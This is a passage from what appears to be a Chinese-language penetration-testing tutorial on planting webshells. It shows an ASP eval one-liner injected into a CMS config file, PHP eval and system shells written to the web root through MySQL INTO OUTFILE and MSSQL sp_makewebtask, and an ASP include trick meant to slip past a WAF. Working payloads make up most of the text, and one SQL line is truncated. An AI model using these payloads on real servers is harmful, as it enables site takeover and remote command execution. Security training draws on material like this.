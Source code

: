 **6\. 网站配置插马**  
在网站后台的一些配置接口中最终的配置结果会写进网站配置文件，这里通过源码的过滤规则进行闭合语句可以直接将shell写进配置文件从而getshell。注意：网站后台配置插马属于高危操作，如果闭合失败网站将全面崩溃，不建议生产环境下操作。  
例：良精后台配置插马

```
`#配置文件路径：../inc/config.asp``#插马语句："%><%eval request("123")%><%'`
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZOCCNyEdBgicOrIibpU82FIz8HHJDg6wJc2nS1hKURVATlvIb0FClgKnzswPdqLia9ez8WPwibrAFLTw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)  

http://192.168.1.10:8009//inc/config.asp  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZOCCNyEdBgicOrIibpU82FIzNZ0cibia6ay1WyIWGdtuduoG1xOF0jO7nRHTO6m6b8icEo2UiakHLHBgXA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)  

7.上传插件  
将shell添加到安装的插件中上传服务器拿shell。典型如wordpress

8.数据库执行  
通过数据库执行命令导出一句话到网站目录拿shell。此方法需要有数据库写入权限，且知道网站目录

sqlserver 导出  
SQL server 2005之后就不能导了，因为sp\_makewebtask存储过程被取消了  
  

```
;exec%20sp_makewebtask%20%20%27c:\inetpub\wwwroot\ms\x1.asp%27,%27select%27%27<%execut
```

mysql导出  
  
版本一  

```
`Create TABLE study (cmd text NOT NULL);``Insert INTO study (cmd) VALUES('<?php eval ($_POST[cmd]) ?>');``select cmd from study into outfile 'D:/php/www/htdocs/test/seven.php';``Drop TABLE IF EXISTS study;`
```

版本二  

```
`use mysql;``create table x(packet text) type=MYISaM;``insert into x (packet) values('<pre><body ><?php @system($_GET["cmd"]); ?></body></pre>')``select x  into outfile 'd:\php\xx.php'`
```

版本三  

```
select '<?php eval($_POST[cmd]);?>' into outfile 'C:/Inetpub/wwwroot/mysql-php/1.php'
```

**9.文件包含**  
可绕过waf拿webshell。借助文件包含躲避waf拦截。一般用来上大马用  
asp 包含代码  

```
`<!--#include file="123.jpg"-->``#调用的文件必须和被调用文件在同一目录，如果不在同一目录，用下面的语句：``<!--#include  virtual="文件所在目录/123.jpg"-->`
```
